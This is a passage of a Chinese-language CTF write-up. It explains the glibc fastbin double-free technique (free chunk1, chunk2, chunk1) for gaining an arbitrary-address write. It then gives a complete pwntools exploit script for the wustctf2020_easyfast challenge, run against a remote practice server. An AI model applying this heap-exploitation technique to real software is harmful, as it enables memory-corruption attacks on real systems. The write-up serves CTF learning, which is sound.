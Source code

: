 这样一来，在`fastbins`的大小为`0x20`的`bin`中，就会有：

![image-20230217172959638](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/image-20230217172959638.png)

因为`chunk1`指向`chunk2`，因此最右边的`chunk1`也会指向`chunk2`。

**值得注意的是，`fastbin`会对直接与`main arena`连接的`chunk`进行检查，因此必须借助第二个`chunk`才可以让两个一样的`chunk`都在同一个`bins`里面。**

有什么用呢？

若此时我们再申请一个`chunk`，那么左边的`chunk1`将会被申请到，若我们能够修改`chunk1`，便相当于修改了还在`fastbins`里面的右边的`chunk`的`fd`指针。如此以来，若当目前在`fastbins`里面的`chunk`都被`free`了，由于最右边的那个`chunk1`的`fd`指针是我们设计的值，那么接下来再进行`malloc`操作时，便会将我们设计的值作为地址，将我们指定的地址作为一个`chunk`返回给我们。相当于是实现了一个任意地址写的功能。

**但没有那么简单，我们设计的值作为地址的地方要作为`chunk`返回，必须要满足一个条件，即这个`chunk`的`size`值必须和`bins`单链表里面的其他`chunk`相同。**这样一来就没有问题了。

#### 例题wustctf2020_easyfast

exp

```python
# uaf漏洞，借助了0x602088处的有一个50的值，因为double free任意写的chunk的size必须和分配的相等，不然报错。

from pwn import *

context(log_level='debug')

elf = ELF('./wustctf2020_easyfast')
# sh = process('./wustctf2020_easyfast')
sh = remote('node4.buuoj.cn', 27643)

def debug():
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

def add(size):
    sh.recvuntil('choice>\n')
    sh.sendline('1')
    sh.recvuntil('size>\n')
    sh.sendline(str(size))

def delete(index):
    sh.sendlineafter('choice>\n', '2')
    sh.sendlineafter('index>\n', str(index))
    
def modify(index, content):
    sh.sendlineafter('choice>\n', '3')
    sh.sendlineafter('index>\n', str(index))
    sh.send(content)

add(0x40)
add(0x40)

delete(0)
delete(1)
delete(0)

modify(0, p64(0x602080))

# debug()
add(0x40)
add(0x40)

modify(3, p64(0))

```